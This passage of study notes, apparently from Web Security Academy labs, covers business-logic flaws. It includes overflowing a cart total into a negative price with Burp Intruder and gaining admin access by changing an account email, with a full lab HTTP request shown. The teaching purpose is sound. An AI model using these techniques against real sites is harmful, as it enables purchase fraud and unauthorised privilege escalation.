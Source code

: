 ```log
productId=1&redir=PRODUCT&quantity=1
```

   EX2 Low-level logic flaw:

If you buy a thing from site and didn't validate the `limits` of `quantity` Number of this product then you can use burp intruder and set the `NULL Payloads` and start the attack and refresh the page that shows you the total price that should be increasing and then after a certain number of payloads it turns into a negative number.

   <u>**HINT**</u> :

    When you entered big input and the website cut his input then remember BOF

3. Inconsistent security controls
   
   If business rules and security measures are not applied consistently throughout the application, this can lead to potentially dangerous loopholes that may be exploited by an attacker. 
   
   After Login ther are a function make user to update his email and the admin page can't access with normal user the you can update his email to admin like this
   
   from `attacker@company.com` to `attacker@admin.com`
   
   ```log
   POST /my-account/change-email HTTP/2
   Host: 0a9e003b031a21c3803bb2ce00510090.web-security-academy.net
   Cookie: session=QaqrNtS9kAe2KkKjcBjpsj2KxfuXCnls
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 71
   Origin: https://0a9e003b031a21c3803bb2ce00510090.web-security-academy.com
   Referer: https://0a9e003b031a21c3803bb2ce00510090.web-security-academy.net/my-account
   Upgrade-Insecure-Requests: 1
   Sec-Fetch-Dest: documen
   Sec-Fetch-Mode: navigate
   Sec-Fetch-Site: same-origin
   Sec-Fetch-User: ?1
   Te: trailers
   
   email=attacker@admin.com&csrf=bA1jgcPp3snEycQvT0WKOhVCqijSHBT
   ```

4. Users won't always supply mandatory input (Weak isolation on dual-use endpoint)
   
   When probing for logic flaws, you should try removing each parameter in turn and observing what effect this has on the response. 
   
   You should make sure to:
   
   - Only remove one parameter at a time to ensure all relevant code paths are reached.
   
   - Try deleting the name of the parameter as well as the value. The server will typically handle both cases differently.
   